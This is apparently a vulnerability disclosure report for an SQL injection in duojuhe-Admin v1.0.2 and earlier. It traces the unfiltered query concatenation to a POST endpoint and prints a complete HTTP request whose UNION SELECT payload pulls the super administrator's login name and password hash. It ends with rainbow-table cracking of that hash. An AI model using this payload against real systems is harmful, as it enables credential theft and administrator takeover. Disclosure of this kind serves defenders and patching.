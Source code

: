 # The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.


Step 1:Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](.\src\img\2025-04-26 154408.png)



Step 2:After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](.\src\img\2025-04-26 162251.png)

![2025-04-26 154903](.\src\img\2025-04-26 154903.png)



Setp 3:The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](.\src\img\2025-04-26 154010.png)



Step 4:To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

1.Log in to an ordinary user to get a token.

![2025-04-26 144221](.\src\img\2025-04-26 144221.png)

![2025-04-26 144338](.\src\img\2025-04-26 144338.png)

2.Replace token and send payload.

![2025-04-26 144418](C:\Users\M0_Fx\Desktop\JavaCode\Doc\duojuheAdmin-v1.0.2\src\img\2025-04-26 144418.png)

![2025-04-26 144517](.\src\img-bak\2025-04-26 144517.png)

3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](.\src\img\2025-04-26 163147.png)

![2025-04-26 163516](.\src\img\2025-04-26 163516.png)
